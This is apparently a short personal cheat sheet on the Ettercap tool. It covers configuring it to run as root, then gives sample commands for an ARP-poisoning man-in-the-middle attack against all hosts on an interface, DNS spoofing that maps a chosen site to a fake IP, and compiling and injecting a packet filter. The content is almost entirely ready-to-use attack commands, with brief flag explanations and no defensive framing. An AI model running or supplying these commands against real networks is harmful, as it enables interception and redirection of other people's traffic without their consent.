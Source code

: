 


#Initial Setup of Ettercap

nano /etc/ettercap/etter.conf
ec_uid=0
ec_guid=0
uncomment, iptables #redir…

#Sample Usage

ettercap -C -->curses GUI
ettercap -G
        unified sniffing->scan for hosts->select targets->sniff remote conn


#Sample DNS attack

nano /etc/ettercap/etter.dns
my_site.com	A	fake_ip
*.my_site.com	A	fake_ip

ettercap -T -q -M arp -P dns_spoof // // -i eth0
   -T: Specifies the use of the text-based interface
   -q: Runs commands in quiet mode
   -P dns_spoof: Specifies the use of the dns_spoof plug-in
   -M arp: Initiates a MITM ARP poisoning attack to intercept packets between hosts

# ettercap-filters

$ etterfilter my_filter.filter -o my_filter.ef

ettercap -T -q -F my_filter.ef -M ARP // //  ( ---->it worked after arp -d * in windows) 

